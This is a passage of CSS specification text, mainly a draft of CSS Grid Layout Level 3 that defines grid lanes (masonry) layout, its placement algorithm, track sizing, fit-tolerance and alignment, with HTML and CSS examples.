- [Class A break opportunities](#css-break-4:btw-blocks) occur between rows or columns (whichever is in the appropriate axis), and [Class C break opportunities](#css-break-4:end-block) occur between the first/last row (column) and the grid container’s content edges. [CSS3-BREAK]
- When a grid container is continued after a break, the space available to its grid items (in the block flow direction of the fragmentation context) is reduced by the space consumed by grid container fragments on previous pages. The space consumed by a grid container fragment is the size of its content box on that page. If as a result of this adjustment the available space becomes negative, it is set to zero.
- Aside from the rearrangement of items imposed by the previous point, UAs should attempt to minimize distortion of the grid container with respect to unfragmented flow.

#### 13.1.  Sample Fragmentation Algorithm {#css-grid-2:fragmentation-alg}

*This section is non-normative.*

> **Note:** This is a rough draft of one possible fragmentation algorithm, and still needs to be severely cross-checked with the [CSS-FLEXBOX-1] algorithm for consistency. Feedback is welcome; please reference the rules above instead as implementation guidance.

1. Layout the grid following the § 12 Grid Layout Algorithm by using the fragmentation container’s inline size and assume unlimited block size. During this step all `grid-row` `auto` and `fr` values must be resolved.
2. Layout the grid container using the values resolved in the previous step.
3. If a grid area’s size changes due to fragmentation (do not include items that span rows in this decision), increase the grid row size as necessary for rows that either:

  - have a content min track sizing function.
  - are in a grid that does not have an explicit height and the grid row is flexible.
4. If the grid height is `auto`, the height of the grid should be the sum of the final row sizes.
5. If a grid area overflows the grid container due to margins being collapsed during fragmentation, extend the grid container to contain this grid area (this step is necessary in order to avoid circular layout dependencies due to fragmentation).

> **Note:** If the grid’s height is specified, steps three and four may cause the grid rows to overflow the grid.

---

## CSS Grid Layout Module Level 3 {#css-grid-3}

- **Shortname:** `css-grid-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-grid-3/](https://drafts.csswg.org/css-grid-3/)
- **Published TR:** [https://www.w3.org/TR/css-grid-3/](https://www.w3.org/TR/css-grid-3/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-10-21
- **Diff Specification Over:** [CSS Grid Layout Module Level 2 (`css-grid-2`)](#css-grid-2)

### 1.  Introduction {#css-grid-3:intro}

*This section is not normative.*

Grid Layout is a layout model for CSS that has powerful abilities to control the sizing and positioning of boxes and their contents. Grid Layout is optimized for 2-dimensional layouts: those in which alignment of content is desired in both dimensions.


Representative Grid layout example

Although many layouts can be expressed with regular Grid Layout, restricting items into a grid in both axes also makes it impossible to express some common layouts on the Web.

This module defines a variant of Grid Layout that removes that restriction so that items can be placed into Grid-like tracks in one axis while stacking one after another in the other. Items not explicitly placed into specific tracks are placed into the column (or row) with the most remaining space based on the layout size of the items placed so far.

#### 1.1.  Background and Motivation {#css-grid-3:background}

##### 1.1.1.  Waterfall Layout with Auto-placed Items {#css-grid-3:waterfall}

Grid lanes layout, sometimes also called “masonry layout” or “waterfall layout”, is a common Web design pattern where a number of items—​commonly images or short article summaries—​are placed one by one into columns in a way that loosely resembles masonry construction. Unlike multi-column layout and multi-line column flex layout, where content is placed vertically in the first column until it must spills over to the second column, automatic placement in grid lanes layout selects a column for each new item such that it is generally closer to the top of the layout than items placed later.

> **Example:** The traditional Pinterest search results page exemplifies this layout:
>
> 
>
> Representative grid lanes layout example
>
> Here, each item has a different height (depending on the content and the width of the column), and inspecting the DOM reveals (as the visual content itself gives no indication of ordering) that each item has been placed into the column with the smallest height so far.

This layout superficially looks similar to multi-column layout; but it has the advantage that scrolling down will naturally lead to “later” items in the layout (such as those less relevant in the search results).

It’s not possible to achieve this layout using earlier CSS layout models, unless you know up-front how tall each item will be, or use JavaScript for content measurement or placement.

Using `display: grid-lanes` together with `grid-template-columns` yields this type of grid lanes layout

##### 1.1.2.  One-dimensional Grid Layout {#css-grid-3:collapse}

Grid layout allows for powerful track sizing and explicit placement in two axes, but sometimes a layout only needs alignment of its items in one dimension.

Using grid lanes layout together with explicitly-positioned items allows for this type of one-dimensional grid layout.

> **Example:** This example [by Douglas Graham](https://github.com/w3c/csswg-drafts/issues/10233#issuecomment-2071279204) uses explicit positioning to place each item into its assigned column; but there are no rows. Instead, items in each column stack one after the other. This layout can’t be duplicated in grid layout because the “spanning” relationships among the items in adjacent columns is not fixed: it depends on their relative heights and whether the optional banner or advertisement items are included. It also can’t be duplicated in flex layout because the source order of the items (which is used for reading, sequential navigation, and one-column mobile phone layout) goes back and forth between the two columns.
>
> 
>
> Comparison of one-column and two-column variants of a one-dimensional grid layout.

#### 1.2.  Value Definitions {#css-grid-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Grid Lanes Layout Model {#css-grid-3:grid-lanes-model}

**Grid lanes layout** lays out items into pre-defined tracks similar to grid layout in one axis (called the **grid axis**), but flows them freely similar to flex layout in the other (called the **stacking axis**). Similar to grid layout and unlike flex layout, grid lanes layout’s auto-placement distributes items across the tracks to keep the lengths of those tracks as similar as possible.

Grid items are formed and blockified exactly the same as in a regular grid container.

All CSS properties work the same as in a regular grid container unless otherwise specified by this specification. For example, `order` can be used to specify a different layout order for the items.

> **Note:** Subgrid items are supported, but subgridding only occurs in the grid axis; see [§ 3.2 Subgrids](#css-grid-3:subgrids) for details.

A **grid lanes container** is a grid container whose contents participate in grid lanes layout. A grid lanes container creates column tracks if its stacking axis is the block axis, or row tracks if its stacking axis is the inline axis.

| Column Lanes | grid-template-columns: 1fr 2fr 3fr; |  |
| --- | --- | --- |
| Row Lanes | grid-template-rows: 1fr 2fr 3fr; |  |

#### 2.1.  Reordering and Accessibility {#css-grid-3:order-accessibility}

Although grid lanes layout generally progresses in a forwards fashion (placing the next item endward of the current item in at least one axis, matching the natural “reading order”), it can switch between endward in the inline or block axis in a seemingly arbitrary manner. In simple cases, the `fit-tolerance` property can help reduce the feeling of backtracking due to small sizing differences in the stacking axis when laying out auto-placed items. But when [auto-placement](#css-grid-3:grid-lanes-layout-algorithm) is mixed with explicit placement or spanning items, some amount of backtracking may occur.

> **Example:** For example, in the following markup sample, the fourth item is a spanner that doesn’t fit in the remaining empty column on the first line. It ends up positioned into the into the first column, which is the highest available space into which it will fit. The next few items, which have a span of 1, end up laying out “above” it in the empty column, violating the natural reading order.
>
> ```
> <section class=masonry>
>   <div class=item>1</div>
>   <div class=item>2</div>
>   <div class="item tall">3</div>
>   <div class="item wide">4</div>
>   <div class=item>5</div>
>   <div class=item>6</div>
>   <div class=item>7</div>
> </section>
> <style>
> .masonry {
>   display: grid-lanes;
>   grid-template-columns: repeat(5, auto);
> }
> .item { height: 50px; }
> .item.wide { grid-column: span 3; }
> .item.tall { height: 90px; }
> </style>
> ```
>
> 
>
> Auto-placed grid lanes layout with mixed-height items and mixed span sizes
>
> Similarly, items explicitly placed into specific tracks can leave gaps behind them, into which subsequent auto-placed items can be placed visually out-of-order.

Authors should be aware of these possibilities and design layouts where such backtracking is minimized so that focus and reading order can be more easily followed. Alternatively, if the items do not have an inherent order, use the `reading-flow` property to allow the UA to re-order the items for reading and linear navigation.

> **Issue:** Or should reordering be the default behavior for auto-placed items here?

> **Note:** Techniques for reducing backtracking include:
>
> - Using appropriate values for `fit-tolerance`, i.e. values large enough to avoid gratuitous differentiation among similarly-sized tracks, but not so large that meaningful differences get ignored.
> - Using explicit placement in ways that help group related items together, rather than ways that disrupt the natural order of items
> - Avoiding the combination of mixed span sizes in the grid axis and disparate item sizes in the stacking axis, which can cause items to get pulled out of order (see example above).

As with grid layout and flex layout authors can use the `order` property to re-order items; the same caveats apply. See [CSS Grid Layout 2 § 4 Reordering and Accessibility](#css-grid-2:order-accessibility) and [CSS Display 4 § 3.1 Reordering and Accessibility](#css-display-4:order-accessibility).

#### 2.2.  Establishing Grid Lanes Layout {#css-grid-3:grid-lanes-containers}

| Field | Value |
| --- | --- |
| Name: | `display` |
| [New values:](#css-values-4:value-defs) | grid-lanes \| inline-grid-lanes |

****grid-lanes****

: This value causes an element to generate a block-level grid lanes container box.

****inline-grid-lanes****

: This value causes an element to generate an inline-level grid lanes container box.

A grid lanes container that is not subgridded in its grid axis establishes an independent formatting context for its contents.

> **Issue:** (12820): Write up how grid/masonry formatting contexts work more formally?

#### 2.3.  Orienting Grid Lanes Layout {#css-grid-3:grid-lanes-orientation}

The orientation of a grid lanes container, i.e. whether its grid axis is the inline axis (establishing columns) or the block axis (establishing rows) is determined by the TBD property.

The initial value of this property is **normal**, which determines the orientation from the `grid-template-*` properties:

- If `grid-template-columns` is `none` and `grid-template-rows` is not `none`, the grid container’s block axis is the grid axis (establishing rows).
- Otherwise (thus by default), the grid container’s inline axis is the grid axis (establishing columns).

> **Example:** The following code will create a 2-column (“waterfall style”) grid lanes container that grows downward:
>
> ```css
> .container {
>   display: grid-lanes;
>   grid-template-columns: 100px 200px;
> }
> ```
>
> while the following code will create a 2-row (“brick wall style”) grid lanes container that grows horizontally:
>
> ```css
> .container {
>   display: grid-lanes;
>   grid-template-rows: 100px 200px;
> }
> ```

> **Issue:** Figure out whether we are re-using `grid-auto-flow` here (and what it’s values mean) or defining a new property like `grid-lanes-direction`. [[Issue #12803]](https://github.com/w3c/csswg-drafts/issues/12803)

### 3.  Grid Lanes Track Specification {#css-grid-3:grid-lanes-track-templates}

In the grid axis, the full power of grid layout is available for track specification:

- Track sizes, line names, and areas can be specified on the grid lanes container’s grid axis, just like in grid layout.
- The explicit grid and implicit grid are formed in the same way as for a regular grid container.
- Items can be [placed](#css-grid-3:grid-lanes-track-placement) against these grid templates just as in grid layout.

However, auto-placed items contribute sizing to all tracks, not just the track into which they are ultimately placed; see [§ 3.4 Grid Axis Track Sizing](#css-grid-3:track-sizing).

> **Note:** This is because auto-placed items must be laid out *as* they are placed, so that each track knows how “full” it is (and therefore which track should receive the next auto-placed item); thus, the tracks themselves must already have a definite size so that the items know their available space during layout.

#### 3.1.  Declaring Grid Lanes Track Templates: the `grid-template-*` properties {#css-grid-3:grid-lanes-track-properties}

The `grid-template-*` and `grid-auto-rows`/`grid-auto-columns` properties (and their shorthands) apply in the grid axis of the grid lanes container and establish tracks just as on regular grid containers. (They are ignored in the stacking axis.)

##### 3.1.1.  Intrinsic Tracks and repeat() {#css-grid-3:intrinsic-auto-repeat}

Level 3 extends the `repeat()` notation to allow repetitions where neither the min track sizing function nor the max track sizing function is definite; in other words, the syntax for `<auto-repeat>` is relaxed to the following:

```css
<auto-repeat> = repeat(  [ auto-fill | auto-fit ] , [ <line-names>? <track-size> ]+ <line-names>? )
```

In order to resolve the number of repetitions, a hypothetical size is calculated for such tracks by initializing the track sizes (per [CSS Grid Layout 2 § 12.4 Initialize Track Sizes](#css-grid-2:algo-init)) and resolving intrinsic track sizes (per [CSS Grid Layout 2 § 12.5 Resolve Intrinsic Track Sizes](#css-grid-2:algo-content)) in accordance with [§ 3.4 Grid Axis Track Sizing](#css-grid-3:track-sizing) with the following assumptions:

- Ignore explicit item placement. (That is, assume all items have an automatic position.)
- Do not collapse any tracks.
- Expand the repeated track listing to capture all possible automatic placements of each item, i.e. repeat the track listing `2 + (largest span - 2)/(number of tracks in repeat())` times, rounded *down* to a whole number.

The hypothetical size of each track in the `repeat()` listing is given by the largest track corresponding to that entry (by index) in the listing.

> **Example:** For example, given a template of `repeat(auto-fill, 50px auto auto)` and a largest spanner of 2, you need to repeat the track listing twice, giving `50px auto auto 50px auto auto`. After doing the hypothetical layout, the 2nd and 5th tracks are maxed together to provide a hypothetical size for the first `auto` and the 3rd and 6th tracks are maxed together to provide a hypothetical size for the second `auto`. Those concrete sizes are then used to determine how many repetitions will fill the container.

> **Issue:** Should this work also in Grid Layout somehow, or fall back to a single repetition? If so, how? [[Issue #10915]](https://github.com/w3c/csswg-drafts/issues/10915)

> **Note:** This simplified layout heuristic is defined to be "good enough", while remaining fast and consistent. Ignoring placement is required just to make the concept coherent; before you know how many repetitions you need, you can’t tell what track an item (even one with a definite placement) will end up in.

> **Issue:** Technically, if your explicit placement does not enter or cross over the repetition, we can know its placement prior to resolving the reptition. Do we want to adjust the algorithm above to account for this? That is, given `auto repeat(auto-fill, ...) auto`, if you explicitly place an item against line 1 or -1, we could let it only affect that track (rather than pretending it’ll go in every track).

#### 3.2.  Subgrids {#css-grid-3:subgrids}

Subgridding allows nested grid lanes containers (and grid containers) to share track sizes. If the parent’s corresponding axis is a grid axis, the subgridded axis is taken from the parent container [as specified for grid containers](#css-grid-2:subgrids); if the parent’s corresponding axis is a stacking axis, the subgridded axis also acts as a stacking axis.

> **Issue:** What if this conflicts with the lanes orientation, or results in both axes stacking?

In grid lanes layout, auto-placed subgrids don’t inherit any line names from their parent grid, because that would make the placement of the item dependent on layout results; but the subgrid’s tracks are still aligned to the parent’s tracks as usual.

> **Example:** Here’s a subgrid [example](../css-grid-3/examples/subgrid-example-1.html):
>
> ```css
> <style>
> .grid {
>   display: inline-grid-lanes;
>   grid-template-rows: auto auto 100px;
>   align-content: center;
>   height: 300px;
>   border: 1px solid;
> }
>
> .grid > * {
>   margin: 5px;
>   background: silver;
> }
> .grid > :nth-child(2n) {
>   background: pink;
> }
>
> .grid subgrid {
>   display: grid;
>   grid: subgrid / subgrid;
>   grid-row: 2 / span 2;
>   grid-gap: 30px;
> }
> .grid subgrid > * { background: cyan; }
> </style>
> ```
>
> ```html
> <div class="grid">
>   <item>1</item>
>   <item>2</item>
>   <item>3</item>
>   <subgrid>
>     <item style="height:100px">subgrid.1</item>
>     <item>sub.2</item>
>     <item>s.3</item>
>   </subgrid>
>   <item>4</item>
>   <item>5</item>
>   <item style="width: 80px">6</item>
>   <item>7</item>
> </div>
> ```
>
> 
>
> The rendering of the subgrid example above.
>
> Note how the subgrid’s first item ("subgrid.1") contributes to the intrinsic size of the 2nd row in the parent grid. This is possible since the subgrid specified a definite position so we know which tracks it will occupy. Note also that trying to subgrid the parent’s stacking axis results in the subgrid converting to a grid lanes container with its inline axis as the stacking axis.

A subgrid that is a grid lanes container can be referred to as a **grid lanes subgrid**. To distinguish, a regular grid container subgrid can be referred to as a **regular grid subgrid**.

#### 3.3.  Track Repetition: the `repeat()` notation {#css-grid-3:repeat-notation}

This specification introduces new keywords and grid-lanes–specific behavior for the `repeat()` notation.

##### 3.3.1.  repeat(auto-fit) {#css-grid-3:repeat-auto-fit}

In grid lanes containers (as in regular grid containers) `auto-fit` acts like `auto-fill`, but with empty tracks collapsed. However, because placement occurs after track sizing, grid lanes containers use a heuristic to determine if a track will be occupied:

- All tracks occupied by explicitly placed items are considered occupied.
- With the sum of the spans of all auto-placed items as *N*, all unoccupied tracks up to the *N*th such track are considered occupied.

All tracks produced by the `auto-fit` repetition and considered unoccupied by this heuristic are assumed “empty” and are collapsed. A collapsed grid track cannot accept placement of auto-placed items.

> **Note:** It is possible for an auto-placed item to be placed in a track when `auto-fill` is used that would be collapsed if `auto-fit` is used if there are auto-placed items with a span greater than 1 mixed with explicitly-placed items that leave gaps too small for the auto-placed items.

#### 3.4.  Grid Axis Track Sizing {#css-grid-3:track-sizing}

Track sizing works the same as in [CSS Grid](#css-grid-2:algo-track-sizing), except that when considering which items contribute to intrinsic sizes:

- All items explicitly placed in that track contribute, and
- All items with an automatic grid position contribute (regardless of whether they are ultimately placed in that track).

> **Example:** For example, suppose there are two columns in the grid axis and that
>
> - Items A, B, and C have no explicit position.
> - Item D is explicitly placed into the first column.
>
> In this case, items A, B, C, and D all contribute to sizing the first column, while only A, B, and C (and not D) contribute to the second column.

In the case of spanning items with an automatic grid position, they are assumed to be placed at every possible start position, and contribute accordingly.

> **Example:** For example, suppose there are 5 columns in the grid axis, with the middle having a fixed size of `100px` and the other two being `auto`-sized. For the purpose of track sizing, an item that spans 2 tracks and has an intrinsic contribution of 220px is essentially copied and assumed to exist:
>
> - At grid line 1, contributing 110px to each of the first two tracks.
> - At grid line 2, contributing 120px to the second track.
> - At grid line 3, contributing 120px to the fourth track.
> - At grid line 4, contributing 110px to the fourth and fifth tracks.

> **Note:** This algorithm ensures that each track is at least big enough to accommodate every item that is ultimately placed in it, and does not create dependency cycles between placement and track sizing. However, depending on the variation in sizes, tracks could be larger than necessary: an exact fit is only guaranteed if all items are explicitly placed in the grid axis or all items are the same size (or matching multiples of that size, in the case of spanning items).

##### 3.4.1.  Subgrid Item Contributions {#css-grid-3:track-sizing-subgrid}

When sizing the tracks of either a regular grid container or a grid lanes container, a grid lanes subgrid has special handling of items that have an automatic grid position:

- Any such item is placed into every possible parent grid track that could be spanned by the grid lanes subgrid. (If the subgrid has a definite grid position, thus only the spanned tracks; if it has an automatic grid position, then all tracks in the parent grid.)
- Any such item receives the largest margin/border/padding contribution of each edge at which it could hypothetically be placed. If the item spans the entire subgrid, it receives both. (See [CSS Grid Layout §9](#css-grid-2:subgrid-item-contribution).)

When sizing the tracks of a grid lanes container, a subgrid with an automatic grid position (whether a regular grid subgrid or grid lanes subgrid) also has special handling of its items:

- *Every* item is placed into every possible parent grid track that could be spanned by the subgrid, (ignoring any explicit placement of the item).
- Explicitly-placed sub-items only receive the subgrid’s margin/border/padding contribution when their explicit placement is at an edge of the subgrid (as usual).

> **Note:** Explicitly placed items inside an explicitly placed subgrid only ever contribute to their actual parent grid tracks. This is because in this case, just like in regular grid layout, the item’s placement is known prior to track sizing.

##### 3.4.2.  Optimized Track Sizing {#css-grid-3:track-sizing-performance}

Track sizing can be optimized by aggregating items that have the same span size and placement into a single virtual item as follows:

1. Separate all the grid items into **item groups**, according to the following properties:

  - the span of the item
  - the placement of the item, i.e. which tracks it is allowed to be placed in
  - the item’s baseline-sharing group

   > **Note:** For example, an item with span 2 placed in the second track will be in a different group than an item with span 2 that has an automatic grid position.
2. For each item group, synthesize a **virtual grid item** that has the maximum of every intrinsic size contribution among the items in that group.

   If the items apply baseline alignment, determine the baselines of the virtual grid item by placing all of its items into a single hypothetical grid track and finding their shared baseline(s) and shims. Increase the group’s intrinsic size contributions accordingly.
3. Place hypothetical copies of each virtual grid item into the grid axis tracks in every position that the item could potentially occupy, and run the [track sizing algorithm](#css-grid-2:algo-track-sizing) with those items. The resulting track sizes are the grid lanes container’s track sizes.

> **Note:** This optimization should give the same results as the track sizing description [above](#css-grid-3:track-sizing); if not this is an error, please [report it to the CSSWG](https://github.com/w3c/csswg-drafts/issues).

### 4.  Grid Lanes Item Placement {#css-grid-3:grid-lanes-track-placement}

In the grid axis, items can be *explicitly placed* into tracks and span them using the familiar grid-placement properties’ syntax. Auto-placement, however, uses the [§ 4.4 Grid Lanes Layout and Placement Algorithm](#css-grid-3:grid-lanes-layout-algorithm), placing each item with an automatic grid position into the “shortest” track available.

> **Example:** Here’s a grid lanes layout demonstrating explicitly placed and spanning items:
>
> ```
> .container {
>   grid-template-columns: repeat(3, auto);
> }
> .container > :nth-child(2) {
>   /* auto-placed, but spanning. */
>   grid-column: span 2;
> }
> .container > :nth-child(3) {
>   /* manually placed */
>   grid-column: 3;
> }
> /* all other children are auto-placed */
> ```
>
> 
>
> Rendering of the example above.

#### 4.1.  Specifying Grid Axis Item Placement: the `grid-column-*` and `grid-row-*` properties {#css-grid-3:grid-lanes-placement}

The `grid-column-*` and `grid-row-*` properties (and their shorthands) apply in the grid axis of the items and establish placement just as in regular grid layout.

#### 4.2.  Placement Precision: the `fit-tolerance` property {#css-grid-3:placement-tolerance}

| Field | Value |
| --- | --- |
| Name: | **fit-tolerance** |
| [Value:](#css-values-4:value-defs) | normal \| `<length-percentage [0,∞]>` \| infinite |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the grid-axis content box size of the grid lanes container |
| [Computed value:](#css-cascade-6:computed) | a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | as length |

Grid lanes containers are filled by placing each grid item in whichever grid track is currently the least filled. When multiple tracks are tied for least-filled, placing the items in order looks good. But if tracks are only *very slightly* different heights, it can look strange to have them not fill in order, as the height differences aren’t perceived as *meaningfully* different.

The `fit-tolerance` property specifies what the threshold is for considering tracks to be “the same height”, causing them to fill in order.

****`<length-percentage>`****

: Specifies the **tie threshold** for the grid lanes container. Placement positions are considered to be equally good (“tied”) if they are within the specified distance from the shortest position.

  > **Note:** The initial value is a “small” distance (`1em`) that is probably appropriate to represent “close enough”.

****normal****

: Resolves to a used value of `1em` in grid lanes layout and a used value of `0` in all other layout modes.

****infinite****

: Specifies an infinite tie threshold. This makes items distribute themselves strictly in order, without considering the length of the tracks at all.

  > **Note:** This value can result in consecutive items being placed in dramatically different positions in the stacking axis, which can be confusing to readers. If the initial value (`1em`) is too small, consider a larger value (such as `10em` or `50vh`) instead of `infinite`.

> **Example:** In the following example, when placing the 5th item, the fourth column is the shortest, but the first column is *almost* as short.
>
> 
>
> With the default tolerance of `1em`, both the first and fourth columns are considered to be "tied", and so the first is chosen.
>
> If, instead, the tolerance is set to `0px`, then there is no tie; only the fourth column is a possible placement.

> **Note:** We expect to apply this property to flex layout in the future also, see [discussions](https://github.com/w3c/csswg-drafts/issues/3071) on how that might work.

#### 4.3.  Dense Placement: the `dense` keyword {#css-grid-3:grid-lanes-dense-packing}

In grid layout, `grid-auto-flow: dense` allows backtracking during the [grid item placement algorithm](#css-grid-2:auto-placement-algo). The `dense` keyword similarly allows backtracking during the [grid lanes placement algorithm](#css-grid-3:grid-lanes-layout-algorithm). However, because item placement and sizing are intertwined in grid lanes layout, an item can only backtrack into a compatible empty slot if the total used size of that slot’s tracks matches the used size of the item’s normal-placement tracks.

> **Note:** This restriction avoids laying out the item more than once.

#### 4.4.  Grid Lanes Layout and Placement Algorithm {#css-grid-3:grid-lanes-layout-algorithm}

For each of the tracks in the grid axis, keep a **running position** initialized to zero. Maintain also a **auto-placement cursor**, initially pointing to the first line.

For each item in order-modified document order:

1. If the item has a definite grid position in the grid axis, use that placement.

   > **Issue:** Should this also update the placement cursor?

   Otherwise, resolve its grid axis placement using these substeps:

  1. Starting at the first grid axis line in the implicit grid, find the largest running position of the grid axis tracks that the item would span if it were placed at this line, and call this position *max_pos*.
  2. Repeat the previous step for each successive line number until the item would no longer fit inside the grid.
  3. Let *possible lines* be the line that resulted in the smallest *max_pos*, and all lines that result in a *max_pos* within the tie threshold of this *max_pos*.
  4. Choose the first line in *possible lines* greater than or equal to the auto-placement cursor as the item’s position in the grid axis; or if there are none such, choose the first one.
  5. Update the auto-placement cursor to point to item’s last line.
2. Place the item in its grid axis tracks at the maximum of the running positions of the tracks it spans.
3. Calculate the size of the item’s [containing block](#css-grid-3:containing-block) and then layout the item. Set the running position of the spanned grid axis tracks to `max_pos + outer size + grid-gap`.

   For this purpose, the outer sizes of the box are floored at zero.

   > **Note:** That is, if the box has sufficiently large negative margins, it won’t somehow count as a negative *size* here. The running position of a track never decreases, so a negative-sized box won’t cause future normally-sized items placed in the track to overlap previous items.
4. If the grid lanes container uses `dense` packing, and there exists skipped spaces in the layout (e.g. due to spanning items) into which the item, as it is sized now, could have fit if it were placed earlier, and where the spanned tracks have the same total used size as the tracks into which it is currently placed, then instead place it into the highest such space. If there are multiple valid spaces within the tie threshold of the highest space, place it in the start-most of them. Rewind the auto-placement cursor and the running position to their values before this item’s placement.

   > **Note:** Items that *visually* intrude into preceding empty spaces (via negative margins, `position: relative`, transforms, etc.), do not affect the size of those empty spaces. Later items can get placed in those spaces and visually overlap these previous items.

   > **Note:** Dense packing both ignores the auto-placement cursor when backfilling, and does not update it after placement. If there aren’t any acceptable placement gaps to backfill, though, it places items exactly as when `dense` were not specified.

> **Note:** This algorithm chooses the track that would result in the item being placed as highly as possible. If there are ties, it chooses the earliest such track, *after* the most recently placed item if possible (ensuring that it always “moves forward” even in the presence of ties).

##### 4.4.1.  Containing Block {#css-grid-3:containing-block}

The containing block for a grid item participating in grid lanes layout is formed by its grid area in the grid axis and the grid container’s content box in the stacking axis.

##### 4.4.2.  Placement and Writing Modes {#css-grid-3:rtl-example}

> **Note:** Like all of grid layout, grid lanes layout and placement is sensitive to the writing mode. For example, for `direction: rtl`, items are placed right-to-left rather than left-to-right, whether the inline axis is a grid axis or a stacking axis.

> **Example:** Here’s a simple [example](../css-grid-3/examples/rtl-grid-axis.html) using `direction: rtl` in the grid axis:
>
> ```css
> <style>
>   .grid {
>     display: inline-grid-lanes;
>     direction: rtl;
>     grid-template-columns: repeat(4, 2ch);
>     border: 1px solid;
>   }
>
>   item { background: silver }
>   item:nth-child(2n+1) {
>     background: pink;
>     height: 4em;
>   }
>   </style>
> ```
>
> ```html
> <div class="grid">
>   <item>1</item>
>   <item style="grid-column:span 2">2</item>
>   <item>3</item>
>   <item>4</item>
> </div>
> ```
>
> 
>
> Rendering of the `direction: rtl` example above.

> **Example:** Here’s a simple [example](../css-grid-3/examples/rtl-masonry-axis.html) using `direction: rtl` in the stacking axis:
>
> ```css
> <style>
> .grid {
>   display: inline-grid-lanes;
>   direction: rtl;
>   width: 10ch;
>   column-gap: 1ch;
>   grid-template-rows: repeat(4, 2em);
>   border: 1px solid;
> }
>
> item { background: silver }
> item:nth-child(2n+1) {
>   background: pink;
>   width: 4ch;
> }
> </style>
> ```
>
> ```html
> <div class="grid">
>   <item>1</item>
>   <item style="grid-row:span 2">2</item>
>   <item>3</item>
>   <item>4</item>
> </div>
> ```
>
> 
>
> Rendering of the `direction: rtl` example above.

### 5.  Sizing Grid Containers {#css-grid-3:intrinsic-sizes}

[Sizing Grid Containers](#css-grid-2:intrinsic-sizes) works the same as for regular grid containers but with the following replacement for the stacking axis: The max-content size (min-content size) of a grid container in the stacking axis is the size of the stacking range when the grid lanes container is sized under a max-content constraint (min-content constraint) in that axis. The **stacking range** is the range between the startmost outer edge among the first items of each track and the endmost outer edge among the last items of each track.

> **Example:** Here’s a simple [example](../css-grid-3/examples/grid-intrinsic-sizing-example-1.html):
>
> ```css
> <style>
> .grid {
>   display: inline-grid-lanes;
>   grid-template-columns: 50px 100px auto;
>   grid-gap: 10px;
>   border: 1px solid;
> }
> item { background: silver; margin: 5px; }
> </style>
> ```
>
> ```html
> <div class="grid">
>   <item style="border:10px solid">1</item>
>   <item>2</item>
>   <item>3</item>
>   <item style="height:50px">4</item>
>   <item>5</item>
>   <item>6</item>
> </div>
> ```
>
> 
>
> Rendering of the grid container intrinsic sizing example above.

### 6.  Alignment and Spacing {#css-grid-3:alignment}

#### 6.1.  Gutters: the `row-gap`, `column-gap`, and `gap` properties {#css-grid-3:gutters}

[Gutters](#css-grid-2:gutters) are supported in both axes using the `row-gap` and `column-gap` properties (and their `gap` shorthand). Margins do not collapse in either axis.

In the grid axis, gutters are the spacing between adjacent grid tracks, as in a regular grid container.

In the stacking axis, a gutter is placed before each grid item except the first in a grid track, and extends across that track in the grid axis. The gutter is placed before item self alignment is applied, thus the self alignment of an item does not affect the gutter’s position. Each gutter has the specified gap size, any additional space left by item placement is not part of the gutter. For an item that spans multiple tracks, there is a separate gutter in each track it spans; these gutters do not join across tracks.


Gutters in a four-column grid lanes container with spanning items; grid axis gutters in orange and stacking axis gutters in blue. The orange gutters continue behind spanning items, while each blue gutter remains within a single track.

#### 6.2.  Grid-axis Alignment: the `align-content`/`justify-content`, `align-self`/`justify-self`, and `align-items`/`justify-items` properties {#css-grid-3:grid-axis-alignment}

In the grid axis, the box alignment properties work the same as in a regular grid container, except that `flow-start` and `flow-end` follow the grid lanes layout placement direction, as defined in [CSS Box Alignment 3 § 4.1 Positional Alignment: the center, start, end, self-start, self-end, flow-start, flow-end, flex-start, flex-end, left, and right keywords](#css-align-3:positional-values). See [CSS Grid Layout 2 §  11. Alignment and Spacing](#css-grid-2:alignment).

#### 6.3.  Stacking-axis Content Distribution: the `align-content`/`justify-content` properties {#css-grid-3:stacking-content-alignment}

In the stacking axis, [content-distribution](#css-align-3:content-distribution) is applied to the content as a whole, similarly to how it behaves in block containers. More specifically, the alignment subject is the stacking range.


The extent of the alignment subject is indicated by the dashed border, while the alignment container is the whole container (indicated by the height of the column dividers). It defaults to start-aligning, but depending on (in this case) `align-content`, the items can move down, as a block, to center- or end-align vertically.

> **Note:** There is only ever one alignment subject for these properties in the stacking axis, so the unique `align-content` / `justify-content` values boil down to `start`, `center`, `end`, and baseline alignment. (The behavior of `normal` and `stretch` is identical to `flow-start`, and the distributed alignment values behave as their fallback alignments.) If the grid items overflow the grid container’s content box in the stacking axis, then the stacking range will be larger than the grid container’s content box.

#### 6.4.  Stacking-axis Self Alignment: the `align-self`/`justify-self` and `align-items`/`justify-items` properties {#css-grid-3:stacking-self-alignment}

In the stacking axis, the self-alignment properties only apply to items that are adjacent to a “gap” in the layout, i.e. placed in their grid track(s) either immediately before a spanning item or as the last item. The alignment subject is the item’s margin box, and the alignment container is that box plus the adjacent “gap”. For the last item in a track, the alignment container extends to the lowest bottom outer edge among all the last items in all tracks.


The three highlighted items are the only ones with "gaps" following them, so they’re the only ones that will respond to `align-items`. Their alignment containers are indicated by the cross-hatched areas.

| `align-self: start` | `align-self: end` |
| --- | --- |
|  |  |

Alignment of an item does not affect the size or position of other items' alignment containers.

#### 6.5.  Baseline Alignment {#css-grid-3:grid-lanes-baseline-alignment}

Item baseline alignment inside the grid axis tracks works as usual for a regular grid container, and the grid container’s baseline is determined the same as for a regular grid container in that axis.

Baseline alignment is not supported in the stacking axis. The baseline alignment values of the self-alignment properties on grid items are treated as their fallback alignment in this axis. The first baseline set of the grid container in this axis is generated from the highest alignment baseline among the grid items placed first in each track, and the last baseline set from the lowest alignment baseline among the grid items placed last in each track.

